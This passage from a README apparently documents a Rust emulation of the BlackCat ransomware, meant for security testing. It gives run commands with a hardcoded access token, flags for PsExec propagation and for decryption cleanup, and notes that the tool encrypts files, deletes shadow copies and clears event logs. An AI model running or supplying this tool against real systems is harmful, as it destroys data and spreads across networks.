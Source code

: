Note that registry changes, killed processes/services, wallpaper changes, deleted events, files deleted from the recycle bin, etc will not be restored.

# Run
BlackCat can be run via `cargo` or as a precompiled executable (see the [Build section](#build) for build information). 

Note that `--access-token` is required and must be at least 16 characters long. The first 16 characters are used to decrypt the configuration<sup>[3](https://www.hhs.gov/sites/default/files/blackcat-analyst-note.pdf)</sup>.

:heavy_exclamation_mark: WARNING - do not run BlackCat on any system that you do not want to tamper with. BlackCat will perform various recovery hampering and impact TTPs, including encrypting files, deleting shadow copies, and clearing windows event logs. Use and test with caution.

Via `cargo`:
```
# Debug
cargo run -- --access-token 15742aa362a84ba3

# Release
cargo run --release -- --access-token 15742aa362a84ba3
```

As an executable:
```
blackcat.exe --access-token 15742aa362a84ba3
```

The following command-line flags can override config settings or enable other features:
- `--prop` - force propagation via PsExec.
- `--no-prop` - force disable propagation via PsExec.
- `--clean-up` - toggle cleanup mode. Requires the `--key` argument
- `--key` - hex string containing the AES key used to encrypt files. Used with the `--clean-up` flag to decrypt encrypted files.

Examples:
```
# No propagation, even if specified in internal config
blackcat.exe --access-token 15742aa362a84ba3 --no-prop

# Cleanup mode (debug compilation only)
blackcat.exe --access-token 15742aa362a84ba3 --clean-up --key [AES key hex string]
```

# Build
When compiled, binaries are automatically placed in `./target/[release|debug]/` for Windows and in `./target/x86_64-unknown-linux-musl/release` for Linux (when using the `x86_64-unknown-linux-musl` target). Pre-compiled binaries are already available in `./executables`.

When building in Linux for the first time, you will have to install the appropriate target:
```
rustup target add x86_64-unknown-linux-musl
```

